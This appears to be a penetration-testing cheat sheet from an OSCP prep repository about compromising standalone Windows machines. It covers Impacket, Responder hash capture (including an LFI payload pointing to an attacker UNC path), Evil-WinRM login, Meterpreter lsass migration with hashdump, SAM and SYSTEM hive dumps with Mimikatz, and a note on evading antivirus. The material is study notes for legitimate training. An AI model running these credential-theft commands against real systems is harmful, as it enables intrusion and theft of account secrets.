 # Windows Resources 
Use this folder for triaging and compromising a standalone Windows box. For domain compromising, see [Active_Directory](https://github.com/Scr1ptK1ddie/OSCPprep/tree/main/ActiveDirectory) folder.   
## Contents 
- [Windows Resources](#windows-resources)
  * [Contents](#contents)
  * [Tools](#tools)
    + [Impacket](#impacket)
    + [Responder (not allowed on the OSCP exam, but a common pen testing tool)](#responder--not-allowed-on-the-oscp-exam--but-a-common-pen-testing-tool-)
    + [Evil-WinRM](#evil-winrm)
    + [Metasploit and Meterpreter](#metasploit-and-meterpreter)
## Tools
### Impacket 
https://github.com/SecureAuthCorp/impacket

    apt install impacket-scripts

Local Locations:

    /usr/share/doc/python3-impacket/examples   
    
[lsassy](https://github.com/PowerShellMafia/PowerSploit): script to extract creds remotely using impacket  
    
### Responder (not allowed on the OSCP exam, but a common pen testing tool)   
Allows you to spoof various services then capture hashes from devices that try to authenticate to those.  
Common use: poison responses during NetNTLM authentication to capture credentials. Might be able to relay the challenge instead of just capturing it (if SMB signing is not enforced). Ref: https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html       
  
Install:   

    git clone https://github.com/lgandx/Responder   
 Usage:   

     sudo responder.py -I eth0   #start on specified interface. Hashes will be captured when a device tries to authenticate to resources on the network.               
    
You might be able to use a LFI vulnerability to request a resource and capture a hash using Responder. Ex - http://site.com/?page=//10.10.14.25/somefile           
Captured hashes will be stored in the logs folder, in a .txt file named for the protcol-hash type- and IP captured from.     
Crack Hashes from responder:     

    john hashes.txt   #John the Ripper will automatically detect the format of hashes collected by Responder.    
    hashcat -m 5500   #NTLMv1 (hashes captured from using a tool like Responder)     
    hashcat -m 5600   #NTLMv2 (hashes captured from using a tool like Responder)   
    
### Evil-WinRM
Access port 5985. Use with a username / password or username / hash. 

    $ evil-winrm -u Administrator -p password -i 10.10.10.10    

### Metasploit and Meterpreter   
Meterpreter shell: need to migrate to lsass process to dump hashes, due to process permissions on Windows.         
    
    meter > migrate -N lsass.exe       
    meter > hashdump     
    
### Dump Hives and Extract with Mimikatz     
AV products will flag on Mimikatz so only do this if you are sure if won't (otherwise crack the hashes locally).     

    C:\Temp> reg save hklm\sam sam.hive && reg save hklm\system system.hiv     
    C:\Temp> c:\tools\mimikatz\x64\mimikatz.exe "lsadump::sam /sam:sam.hiv /system:system.hiv" "exit"   
    
    username:userid:LANMAN:NTHASH   #hash format when extracted  
